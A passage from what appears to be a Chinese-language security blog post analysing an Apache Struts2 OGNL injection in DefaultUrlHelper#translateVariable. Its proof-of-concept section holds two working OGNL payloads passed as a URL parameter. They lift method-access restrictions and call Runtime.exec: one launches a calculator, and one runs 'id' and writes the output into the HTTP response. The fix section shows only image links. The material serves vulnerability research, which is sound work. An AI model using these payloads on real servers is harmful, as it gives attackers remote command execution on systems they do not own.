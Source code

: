 `org.apache.struts2.views.util.DefaultUrlHelper#translateVariable`

![image-20200514151844894](/images/talk_about_struts2/image-20200514151844894.png)

也同样是使用String转换时出现的OGNL表达式执行

### POC

```java
?fakeParam=%{(%23_memberAccess['allowStaticMethodAccess']=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app'))}
// 回显POC
?fakeParam=%{(%23_memberAccess['allowStaticMethodAccess']=true,%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23isr=new java.io.InputStreamReader(%23ret.getInputStream()),%23br=new java.io.BufferedReader(%23isr),%23res=new char[2000],%23br.read(%23res),%23writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23writer.println(new java.lang.String(%23res)),%23writer.flush(),%23writer.close())}
```

### 修复

![image-20200514152500049](/images/talk_about_struts2/image-20200514152500049.png)

![image-20200514152517255](/images/talk_about_struts2/image-20200514152517255.png)
